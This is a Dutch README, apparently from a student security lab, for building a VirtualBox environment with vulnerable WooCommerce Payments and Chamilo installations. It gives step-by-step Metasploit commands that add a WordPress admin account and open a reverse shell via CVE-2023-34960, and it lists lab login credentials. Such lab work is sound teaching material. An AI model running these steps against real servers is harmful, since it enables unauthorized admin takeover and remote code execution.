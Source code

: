 # Readme voor onze exploits

Auteurs: Arthur Van Ginderachter, Jaak Daemen, Renz De Baets, Bert Coudenys

In deze readme gaan wij uitleggen hoe je de exploit van WordPress kan gebruiken om een Admin account te maken en toegang te krijgen met admin level access op een WordPress server.
En hoe je de exploit van Chamilo kan misbruiken.

## Scripts en bestanden nodig voor het opzetten van de omgeving.

We hebben de omgeving opzetten geautomatiseerd aan de hand van scripts zowel PowerShell als bash.
Binnen het .zip bestand zal u 8 bestanden vinden.

1. run_me.ps1
   - Dit PowerShell script is verantwoordelijk voor het opzetten van de 3 nodige VM's aan de hand van VBoxManage.
   - Dit PowerShell script zal ook de bash scripts uitvoeren en dus de volledige installatie automatiseren.
2. script1.sh
   - Dit bash script zal uitgevoerd worden door het run_me.ps1 script.
   - Dit bash script zal een databank en een WordPress server opzetten. Het zal ook de manuele installatie van WordPress overslaan en dit automatisch doen.
3. rootpromotie.sh
   - Dit bash script zal gekopieerd worden naar de kali linux machine en dan uitgevoerd worden door het run_me.ps1 script.
   - Dit bash script bevat commando's om ervoor te zorgen dat het root account geactiveerd wordt voor de Kali Linux vm.
4. guestupdate.sh
   - Dit script update de guest-additions van VirtualBox op de Ubuntu server (dit is nodig voor VBoxManage correct te kunnen gebruiken).
   - Dit bash script zal gekopieerd worden naar de Ubuntu server machine en dan uitgevoerd worden door het run_me.ps1 script.
5. woocommerce-payments.5.6.1.zip
   - Deze zip file bevat de verouderde en kwetsbare versie van een WooCommerce plugin.
   - BELANGERIJK! Pak deze zip NIET uit.
6. script2.sh
   - Dit bash script zal ook uitgevoerd worden door het run_me.ps1 script.
   - Het zal onze Chamilo omgeving opzetten met de datank en voert verdere configuraties uit.
7. chamilo.sql
   - Dit zal uitgevoerd worden door script2.sh.
   - Dit bestand zet de databank op voor Chamilo.
8. configuration.php
   - Dit zal uitgevoerd worden door script2.sh.
   - Dit PHP-bestand bevat PHP-code die wordt gebruikt om dynamische functionaliteit toe te voegen aan onze Chamilo webpagina.

Download ook deze drie .vdi files van [OSBoxes](https://www.osboxes.org/)

1. Download de "23.04 Lunar Lobster" [Ubuntu-Server](https://www.osboxes.org/ubuntu-server/)
2. Download de "2024.1" [Kali-Linux](https://www.osboxes.org/kali-linux/)
3. Download de "Debian 11 Bullseye" [Debain-server](https://www.osboxes.org/debian/)

Deze .vdi files mogen op uw toestel staan waar u wilt, maar hou de locatie goed bij. Pak nu beide .vdi's uit.

## Opzetten van de omgeving

1. Pak de .zip file die u gedownload heeft uit.
2. In de map "Shared-Folder" vindt u alle scripts. Voer enkel het "run_me.ps1" uit, dit via rechtermuisklik "Run with Powershell" (niet met PowerShell ISE).
3. Het script zal u vier absolute paden vragen. Onder andere van de drie .vdi bestanden als ook van de "Shared-Folder", dit is de map die u zojuist hebt gedownload en uitgepakt.

## Misbruiken van de exploit in WooComerce a.d.h.v. Metasploit

Na het opzetten van de werkomgeving kan u de exploit gebruiken om een admin level user toe te voegen.
Dit hebben wij gedaan via Metasploit.

Check of dat je de webpagina "arthurisgeenjaak.com" kan bereiken. Op "arthurisgeenjaak.com/wp-admin" inloggen kan met:arthur, wachtwoord: arthur

1. Open Metasploit op de Kali Linux en u zult een terminal te zien krijgen.
   In deze terminal kan u het volgende commando uitvoeren om de exploit te zoeken:

   ```bash
   search woocommerce
   ```

2. We zijn op zoek naar de exploit genaamd "auxiliary/scanner/http/wp_payments_add_user 2023-03-22". Gebruik voor het selecteren van de juiste exploit het commando:

   ```bash
   use #{numer van exploit. normaal 1}
   ```

3. Nu gaan we een aantal "set" commando's uitvoeren om Metasploit de correcte informatie te geven voor deze exploit. Om meer informatie te vinden over deze commando's en waarom ze nodig zijn kan je volgende commando's gebruiken:

   ```bash
   show options
   ```

   ```bash
   set RHOSTS arthurisgeenjaak.com
   set username #{Username van het nieuw admin account die u wilt maken}
   set password #{Password van het nieuw admin account die u wilt maken}
   ```

4. Ok, nu bent u klaar om de exploit effectief uit te voeren. Gebruik hiervoor het commando:

   ```bash
   exploit
   ```

5. Na het uitvoeren hiervan, zal er een nieuw account aangemaakt zijn op de WordPress server. Op "arthurisgeenjaak.com/wp-login.php" kan je dan met het aangemaakte account inloggen. Je kan hierdoor misbruik maken van deze exploit door dat je op de server kwaadaardige acties kan uitvoeren.

## Exploit van Chamilo

1. Op de Chamilo webpagina "jaakisgeenarthur.com" kan je inloggen met login: `admin`, wachtwoord: `Test123` dit kan je gewoon in een webbrowser doen.

Extra: als je ingelogd bent kan je controleren onder "Dashboard", dan onder het tablad "extensies" als je hieronder Chamilo "Rapid" ziet staan dan is de installatie succesvol.

2. Open Metasploit op de Kali Linux en zoek in de terminal naar de exploit van Chamilo.

```bash
   search chamilo
```

3. De exploit die we nodig hebben is "exploit/Linux/http/chamilo_unauth_rce_cve_2023_34960", om de juiste exploit te selecteren in de terminal van Metasploit gebruik je het commando:

```bash
use #{nummer van de exploit, normaal 0}
```

4. Om extra info te verkrijgen omtrent de commando's die je kan gebruiken in Metasploit, kan je het volgende commando gebruiken:

```bash
show options
```

5. Instellen van onze remote host:

```bash
set RHOST jaakisgeenarthur.com
```

6. Het huidige IP adres te zien van de Ubuntu server:

```bash
ip -a
```

7. Voor verbinding te maken met (onze) Chamilo server heb je het IP adres nodig van de Ubuntu server, omdat dit een reverse shell is.

```bash
set lhost #{IP adres}
```

8. Om de exploit uit te voeren, geef het volgende commando in:

```bash
exploit
```

9. Met het volgende commando kan je de configuratie van Chamilo bekijken.

```bash
pwd
ls
```
